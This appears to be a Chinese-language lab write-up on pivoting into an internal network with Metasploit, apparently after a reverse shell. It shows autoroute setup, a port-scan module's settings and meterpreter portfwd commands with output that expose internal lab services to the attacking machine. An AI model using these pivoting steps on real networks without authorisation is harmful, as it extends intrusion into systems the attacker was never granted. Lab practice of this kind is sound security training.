







# 第一层内网穿透
## 实验环境
- 靶机ip：192.168.157.131
- 攻击机ip：192.168.93.130
## 实验步骤
在反弹shell成功获取flag后配置路由并放置后台运行
```bash
run get_local_subnets
run autoroute -s 10.10.20.0/24
run autoroute -p
bg
```


接下来使用msf的工具进行端口扫描
```bash
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        80,8888,10000    yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS       192.170.84.1-255  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   THREADS      10               yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds
```


可以发现存在5个端口服务，逐一配置端口映射
```

meterpreter > portfwd add -L 192.168.93.130 -l 9001 -p 80 -r 192.170.84.1
[*] Forward TCP relay created: (local) 192.168.93.130:9001 -> (remote) 192.170.84.1:80
meterpreter > portfwd add -L 192.168.93.130 -l 9002 -p 8888 -r 192.170.84.2
[*] Forward TCP relay created: (local) 192.168.93.130:9002 -> (remote) 192.170.84.2:8888
meterpreter > portfwd add -L 192.168.93.130 -l 9003 -p 10000 -r 192.170.84.3
[*] Forward TCP relay created: (local) 192.168.93.130:9003 -> (remote) 192.170.84.3:10000
meterpreter > portfwd add -L 192.168.93.130 -l 9004 -p 80 -r 192.170.84.4
[*] Forward TCP relay created: (local) 192.168.93.130:9004 -> (remote) 192.170.84.4:80
meterpreter > portfwd add -L 192.168.93.130 -l 9005 -p 80 -r 192.170.84.5
[*] Forward TCP relay created: (local) 192.168.93.130:9005 -> (remote) 192.170.84.5:80
meterpreter > portfwd list
```


此时网络结构如下图所示


接下来在攻击机中或者本机中输入对应ip即可以访问三个容器



